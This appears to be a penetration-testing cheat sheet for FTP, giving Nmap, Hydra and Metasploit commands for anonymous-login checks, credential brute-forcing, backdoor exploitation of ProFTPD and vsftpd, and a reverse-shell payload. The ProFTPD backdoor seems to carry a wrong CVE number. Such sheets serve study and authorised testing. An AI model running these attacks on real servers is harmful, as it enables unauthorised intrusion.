 **FTP (File Transfer Protocol)**  
**Description**: Unencrypted protocol for transferring files between client and server
**Ports**: TCP 21 (command), TCP 20 (data)	  
**Known Vulnerabilities**: Anonymous login (misconfiguration), Brute-force attacks, Cleartext credential sniffing, FTP Bounce Attack (CVE-1999-0205)

# Basic FTP Usage

```shell
ftp <target_IP> <port_number>
# Opens an FTP connection to the target on the specified port.
# Commands inside ftp: ls, cd, get <file_name>, put <file_name>, exit

ftp <target> # Anonymous login
# When prompted, enter anonymous as both the username and password for login.
```

<br>

# Enumeration with Metasploit and Nmap

```shell
use auxiliary/scanner/ftp/ftp_version
# Scans the FTP service to identify version and banner information.

use auxiliary/scanner/ftp/anonymous
# Checks if the FTP server allows anonymous login.

use auxiliary/scanner/ftp/ftp_login
# Performs brute-force login attempts on the FTP service using user/password lists.

nmap --script ftp-anon -p 21 <target_IP>
# Checks if the FTP server allows anonymous login.

nmap --script ftp-brute --script-args userdb=/root/users -p 21 <target_IP>
# Performs brute-force attack on FTP using a list of usernames.
```

<br>

# Brute-Force with Hydra and Nmap

```shell
hydra -L <user_wordlists> -P <password_wordlists> ftp://<target_IP> -t 4
# Brute-forces FTP login with 4 parallel connections.

hydra -L <user_wordlists> -P <password_wordlists> ftp://<target_IP>:<port>
# Same as above, but specifies a custom FTP port.

hydra -L <user_wordlists> -P <password_wordlists> <target_IP> ftp
# Alternative syntax for brute-forcing FTP without URL format.

echo "sysadmin" > users
# Writes "sysadmin" to the file users, replacing its contents.

nmap --script ftp-brute --script-args userdb=/root/users -p 21 <target_IP>
# Brute-forces FTP usernames from the specified file using Nmap.
```

<br>

# FTP Vulnerability Discovery

```shell
nmap -sV -p 21 --script ftp-proftpd-backdoor <target_IP>
# Checks for a known ProFTPD backdoor vulnerability (CVE-2010-4221).

nmap --script vuln -p 21 <target_IP>
# Runs vulnerability scripts against FTP to detect common issues.

searchsploit ProFTPD
# Searches Exploit-DB for known ProFTPD vulnerabilities based on the detected version.
```

<br>

# Exploiting FTP Vulnerabilities

```shell
use exploit/unix/ftp/proftpd_133c_backdoor
# Exploits a backdoor in ProFTPD 1.3.3c (CVE-2010-4221) to gain a remote root shell.
# Triggered by sending a crafted command to the FTP server.
set payload cmd/unix/reverse
set RHOSTS <target_IP>
set LHOST <local_IP>

use exploit/unix/ftp/vsftpd_234_backdoor
# Exploits a backdoor in vsftpd 2.3.4 that opens a shell on port 6200 after a smiley :) username login attempt.
# Vulnerable version: vsftpd 2.3.4 (intentionally backdoored).

use exploit/unix/ftp/proftpd_modcopy_exec
# ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)
# Exploits the mod_copy module in ProFTPD to copy files from or to any location on the server.
# Allows remote code execution by writing a malicious file into a web-accessible directory.
# Set the variables in msfconsole for RHOSTS , LHOST , and SITEPATH
```
